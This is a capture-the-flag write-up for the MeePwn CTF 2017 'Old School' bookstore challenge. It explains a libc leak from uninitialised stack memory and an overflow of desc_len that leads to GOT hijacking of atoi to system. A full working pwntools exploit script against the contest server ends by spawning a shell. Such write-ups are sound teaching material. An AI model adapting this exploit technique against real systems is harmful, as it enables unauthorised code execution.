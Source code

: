 title: MeePwn CTF 2017 -- Old School
author: bruce30262
tags:
  - CTF
  - Python
  - Pwnable
  - MeePwn
  - BOF
categories:
  - write-ups
date: 2017-07-16 09:56:00
---
**Category:** Pwnable

64 bit ELF, Partial RELRO, NX enabled, No PIE, has canary.  
  
<!-- more -->  

```
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

As we can see we can add, edit, delete or show a book. Books are stored in a pointer array `books`, each pointer point to a `book` data structure:  

```c
struct book{
    char book_name[32];
    char author[32];
    int desc_len;
    char desc[256];
}
```

The `books` array and each `book` pointer are all placed on the stack memory.  

The program did not initialize the `book` variable before setting its data. Since there's a libc address ( `<atoi + 0x10>` ) in it, we can leak the libc address by entering 4 characters in the description:  
```
Choice:4
------------ 1 ------------
Name: 11111111
Author: 11111111
Description: AAAA�N���
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

After done some fuzzing, I also found that if we input 32 characters in `book_name` and `author` ( no newline ) , the `desc_len` will be overwritten with our input, and become a large integer. Since when we edit the book description, the length to read is depend on the `desc_len` data, this make us able to overflow the `book->description` buffer and overwrite the pointers in the `books` array !  

So here's how I exploit the service:
1. First leak the libc address
2. Overwrite the `desc_len` data
3. Overflow the `books[0]->desc` buffer and overwrite `books[0]`, let it point to the GOT section
4. Edit `books[0]` and do the GOT hijacking ( hijack atoi to system )


The exploit at the local side worked, but for some unknown reason, the service at the remote side has a different behavior: during the last step of the exploitation, it won't let us input the `author` data, thus failing our exploit. Although we can still pwn it by not entering the author's name, it still took me a while to debug the whole process.  

```python exp_oldschool.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31340
ELF_PATH = "./oldschool_noalarm"
LIBC_PATH = "./libc6_2.23-0ubuntu7_amd64.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_book(book, author, dlen, desc):
    r.sendlineafter("Choice:", "1")
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendlineafter("tion:", str(dlen))
    r.sendafter("tion:", desc)

def edit_book(idx, book, author, desc):
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", str(idx))
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)

def del_book(idx):
    r.sendlineafter("Choice:", "3")
    r.sendlineafter("?", str(idx))

def show_book():
    r.sendlineafter("Choice:", "4")


if __name__ == "__main__":

    r = remote(HOST, PORT)
   
    book, author = "1"*8+"\n", "a"*8+"\n"  
    add_book(book, author, 100, "AAAA\n")
    show_book()
    
    # leak libc
    r.recvuntil("AAAA")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - libc.symbols['atoi'] - 0x10
    log.success("libc_base: "+hex(libc.address))

    del_book(1)
    book, author = "1"*32, "a"*32  
    # make book[0]->size = very big
    # later when we edit book[0]->desc, it will overwrite the pointer of book[0]
    add_book(book, author, 100, "AAAA\n")
   
    # edit book[1]->desc, overwrite book[0]
    # change book[0]->name to got section
    # later we can edit book[0] & do GOT hijacking
    payload = "i"*503 + "\x00" + p32(1) + p64(0x602028) + "\n"
    edit_book(1, "1\n", "1\n", payload)

    # overwrite atoi to system
    payload = "i"*4 + p64(libc.symbols['system']) + "\n"
    book, author, desc = p64(0x400706)[:6:] , p64(0x4006f6)[:6:], payload
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", "1")
    r.sendafter("name:", book)
    # don't know why author won't read input.....
    #r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)
 
    r.sendline("sh")
    r.interactive()

```

flag: `MeePwnCTF{0ld_sch00ld_C4n4ry_1s_0n_th3_st4ck}`





